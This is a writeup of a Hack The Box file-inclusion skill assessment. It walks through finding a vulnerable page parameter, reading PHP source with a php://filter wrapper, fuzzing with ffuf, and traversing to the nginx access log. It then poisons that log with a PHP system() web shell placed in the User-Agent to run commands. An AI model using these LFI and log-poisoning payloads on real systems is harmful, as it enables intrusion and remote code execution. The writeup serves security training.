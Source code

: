 ![Screenshot 2025-04-16 135803](https://github.com/user-attachments/assets/dde0de45-973f-4f3c-8301-b7d73b09fb7f)![Screenshot 2025-04-16 135741](https://github.com/user-attachments/assets/b9490bf9-0290-4a9a-8486-b7449d237744)# Skill Assessment HTB File Inclusion Writeup

After completing all the learning materials in HTB from File Inclusion, now it's time for skill assessment.

Let's start by typing the given target in browser. 

![Screenshot 2025-04-16 122158](https://github.com/user-attachments/assets/139d79ef-db19-4cb3-abb2-2b2773878a25)

After analysing all the pages, i found out the `page` as a parameter. (Seen in the above figure)

Opened that in burp suite and tried to get something out of that using `LFI-Jhaddix.txt`. Found out two different sizes of responses, one has invalid input and another has nothing interested. 

![Screenshot 2025-04-16 123012](https://github.com/user-attachments/assets/d6a66a10-f594-43e9-8362-ae1e52765437)

So, I moved to PHP wrappers. 

Here, first I used `contact` as a first resource and when decoded, there was nothing interesting.

```bash
php://filter/read=convert.base64-encode/resource=contact
```

![Screenshot 2025-04-16 124448](https://github.com/user-attachments/assets/aceb9d96-afa5-4f37-844d-dbee885ace76)

So I decoded it and found that its content was not useful so I thought of fuzzing the PHP files using ffuf
```bash
ffuf -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt:FUZZ -u http://83.136.255.230:36621/FUZZ.php
```
![image](https://github.com/user-attachments/assets/eb56a909-377e-4416-87c2-5fb46eecd192)

But when I tried with index as a resource. Found something interested. 
```bash
php://filter/read=convert.base64-encode/resource=index
```
![Screenshot 2025-04-16 130346](https://github.com/user-attachments/assets/2f21001a-6718-4656-8441-ba11715c7d61)

Unsanitaized Admin page is found here. This indicates that there is a hidden Admin panel and it displays some logs.

![Screenshot 2025-04-16 130633](https://github.com/user-attachments/assets/b782e58c-6fb1-46ca-ba5d-460d0392b1e6)

I also noticed that there is another parameter that specifies the type of logs that are displayed, So I tried to use LFI payloads and it worked.

![image](https://github.com/user-attachments/assets/283fae8e-145d-4b12-b332-386e275bb07e)

Then I tried to access the file that contains the web application’s logs by fuzzing these files to reach the correct path.

```bash
ffuf -w ./Downloads/LFI-gracefulsecurity-linux.txt:FUZZ -u http://94.237.55.96:37944/ilf_admin/index.php?log=../../../../../../../../../../FUZZ -fs 2046
```
![image](https://github.com/user-attachments/assets/b9c06d60-c591-430d-9813-4766a8a284ea)

```bash
index.php?log=../../../../../../../../../..//var/log/nginx/access.log&cmd=id
User Agent: <?php system ($_GET['cmd']); ?>
```

![Screenshot 2025-04-16 135741](https://github.com/user-attachments/assets/249a9d64-e80d-40e2-a949-d9c4f56049b3)

Found uid, gid and groups that means we can get the flags by using shell as a user agent.

```bash
php?log=../../../../../../../../../..//var/log/nginx/access.log&cmd=ls+/
```
![Screenshot 2025-04-16 135803](https://github.com/user-attachments/assets/7b75caeb-df7f-48db-a092-abb3404636cf)

```bash
php?log=../../../../../../../../../..//var/log/nginx/access.log&cmd=ls+/<file_name>
```
